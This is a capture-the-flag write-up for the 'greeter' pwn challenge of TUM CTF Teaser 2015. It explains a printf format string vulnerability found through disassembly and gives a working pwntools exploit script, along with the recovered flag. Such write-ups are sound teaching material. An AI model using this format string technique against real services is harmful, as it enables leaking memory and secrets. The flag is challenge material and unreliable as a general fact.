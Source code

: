 # TUM CTF Teaser 2015: greeter

**Category:** Pwn
**Points:** 15
**Solves:** 36
**Description:**

> Baby's 1st
> 
> [greeter](greeter)
> 
> nc 1.ctf.link 1030


## Write-up

This was the first challenge in the pwn category and was pretty easy to solve.
The service asks us for our name and then tells us to pwn harder.

```
Hi, what's your name?
adsfasdf
Pwn harder, asdfasdf!
```

After a quick look at the disassembly with [radare2](http://radare.org/r/)
wee can see that there are two consecutive
calls to `printf` to print the `Pwn harder, $name!` string. 

```
0x004006d1    bf9f084000     mov edi, str._e_34mPwn_harder_ ; str._e_34mPwn_harder_ ; greeter.c:29  
0x004006d6    31c0           xor eax, eax
0x004006d8    e8c3feffff     call sym.imp.printf
0x004006dd    4889df         mov rdi, rbx                  ; greeter.c:30  
0x004006e0    31c0           xor eax, eax
0x004006e2    e8b9feffff     call sym.imp.printf
0x004006e7    bfb1084000     mov edi, str.__e_0m           ; "!.[0m" @ 0x4008b1 ; greeter.c:31  
0x004006ec    e87ffeffff     call sym.imp.puts
```

And the format string argument seems to be something non-constant. This smells
like a format string vulnerability.
```
Hi, what's your name?
%x 
Pwn harder, 60be2f50!
```

Yes! So we have a pretty straight forward format string vulnerability. At the start
of the `main` function we have code that reads the flag.txt file and stores it
at a location which is apparently not randomized by ASLR.
```
0x00400619    bf96084000     mov edi, str.flag.txt         ; "flag.txt" @ 0x400896
0x0040061e    e8bdffffff     call sym.imp.fopen
0x00400623    4885c0         test rax, rax
0x00400626    0f84d8000000   je 0x400704                  
0x0040062c    4889c2         mov rdx, rax                  ; greeter.c:18  
0x0040062f    be00010000     mov esi, 0x100
0x00400634    bfa00c6000     mov edi, obj.flag             ; obj.flag
0x00400639    4889c5         mov rbp, rax
0x0040063c    e87fffffff     call sym.imp.fgets
```

So we now have to craft a format string that prints the flag. So we add the 
address of the flag object to our format string and use the `%N$s` format 
specifier to directly access the N'th argument, to get to the address of flag. 
After playing around with  the format string a little bit, I got the flag 
`hxp{f0rm4t_sTr1ngs_r0ck}`.
Here is the script I used.

```python
from pwn import *  # NOQA

context.log_level = 'debug'

p = remote("1.ctf.link", 1030)
#p = process("./greeter")
velf = ELF("./greeter")
flagaddr = velf.symbols["flag"]
log.info("Flag addr = 0x{:x}".format(flagaddr))

#fmtstr = ""
fmtstr = "AAAA" * 2
fmtstr += r"%9$s"
fmtstr += "BBBB"
#fmtstr += r"%9$x"
fmtstr += p64(flagaddr)
fmtstr += p64(flagaddr)
fmtstr += p64(flagaddr)

p.recvline()
p.sendline(fmtstr)
line = p.recv()
log.info(line)
m = re.search("(hxp{.*})", line)
if m:
    log.info("found flag: " + m.groups()[0])
p.clean_and_log()
```

## Other write-ups and resources

* <https://github.com/ByteBandits/writeups/blob/master/tum-ctf-teaser-2015/pwn/greeter/sudhackar/README.md>

